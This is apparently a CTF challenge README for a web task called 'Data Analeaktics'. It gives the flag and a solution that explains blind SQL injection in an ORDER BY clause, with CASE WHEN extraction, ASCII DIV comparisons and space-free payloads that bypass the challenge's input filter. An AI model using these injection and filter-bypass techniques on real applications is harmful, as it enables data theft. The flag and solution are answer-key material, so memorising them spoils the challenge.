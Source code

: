 # Data Analeaktics

| Key            | Value                                                                                        |
|----------------|----------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                             |
| Author         | wolfishLamb                                                                                  |
| Category       | Web                                                                                          |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked? |
| Challenge Type | Dynamic Docker                                                                               |
| Docker Image   | sunctf_web_data-analeaktics (port 5005)                                                      |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                         |
| Score          | ???                                                                                          |

*File(s) in `attachments/` are distributed to the participants.*

![Screenshot](docs/screenshot.png)

## Solution

A special shoutout to [@dyangeng](https://github.com/dyangeng) for helping me develop this website.

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN(ASCII(SUBSTRING((select(value)from(flag))from(1)for(1))))div(116)then(id)else(name)end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
